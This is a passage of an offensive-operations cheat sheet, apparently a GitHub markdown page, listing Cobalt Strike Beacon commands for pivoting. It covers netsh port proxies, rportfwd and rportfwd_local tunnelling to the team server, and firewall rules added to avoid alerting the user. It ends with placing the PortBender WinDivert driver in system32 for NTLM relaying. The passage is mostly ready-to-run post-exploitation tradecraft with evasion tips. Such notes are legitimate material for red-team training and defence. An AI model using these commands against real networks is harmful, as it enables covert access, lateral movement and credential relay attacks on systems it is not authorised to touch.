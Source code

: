 #### List forwards netsh
```
netsh interface portproxy show v4tov4
```

#### Remove port forward netsh
```
netsh interface portproxy delete v4tov4 listenaddress=<IP> listenport=<PORT>
```

### Rportfwd
#### Create port forward
- Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destination, so shouldn't be used to relay traffic between individual machines.
- Does not require administrator privs
- OPSEC: When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule. Have to create firewall rule first!
```
powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort <PORT>

rportfwd <PORT> <IP> <PORT>
```

#### Stop and remove firewall rule
```
powershell Remove-NetFirewallRule -DisplayName "Test Rule"

rportfwd stop <PORT>
```

#### Create port forward rportfwd_local
- Beacon also has a rportfwd_local command.  Whereas rportfwd will tunnel traffic to the Team Server, rportfwd_local will tunnel the traffic to the machine running the Cobalt Strike client.
- Does not require administrator privs
- If 127.0.0.1 doesn't work use teamserver IP
```
rportfwd_local <PORT> <IP> <PORT>
```
    
#### Stop port forward local
```
rportfwd_local stop <PORT>
```

### NTLMRelaying with cobalt strike
- https://github.com/praetorian-inc/PortBender
- Requires system privs

#### Place portbender driver on the target
```
cd C:\Windows\system32\drivers
upload WinDivert64.sys
```
